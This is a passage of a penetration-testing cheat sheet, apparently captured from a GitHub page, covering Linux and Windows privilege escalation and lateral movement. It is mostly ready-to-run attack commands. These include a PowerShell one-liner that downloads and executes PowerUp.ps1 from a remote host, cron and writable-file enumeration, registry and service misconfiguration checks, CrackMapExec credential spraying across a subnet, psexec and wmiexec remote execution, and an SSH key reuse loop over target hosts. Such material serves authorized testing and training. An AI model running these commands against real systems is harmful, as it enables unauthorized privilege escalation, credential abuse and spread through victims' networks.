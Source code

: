 ```bash
# Cron job exploitation
cat /etc/crontab
ls -la /etc/cron.*
pspy64  # Monitor processes

# Writable services/scripts
find / -writable -type f 2>/dev/null | grep -E "(service|script)"
```

#### **Windows Privilege Escalation**
```cmd
REM Automated tools
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Invoke-AllChecks"

REM Windows exploits
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic qfe get Caption,Description,HotFixID,InstalledOn

REM Service misconfigurations
accesschk.exe -uwcqv "Authenticated Users" *
sc qc servicename

REM Registry autoruns
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

REM AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

---

## Lateral Movement

### **Phase 8.1: Network Propagation**

#### **Credential Reuse Testing**
```bash
# CrackMapExec for credential spraying
crackmapexec smb 192.168.1.0/24 -u username -p password
crackmapexec winrm 192.168.1.0/24 -u username -p password

# PSExec-style lateral movement
python3 psexec.py domain/username:password@target.com

# WMI execution
python3 wmiexec.py domain/username:password@target.com

# SSH key reuse
for host in $(cat targets.txt); do ssh -i id_rsa user@$host "whoami"; done
```
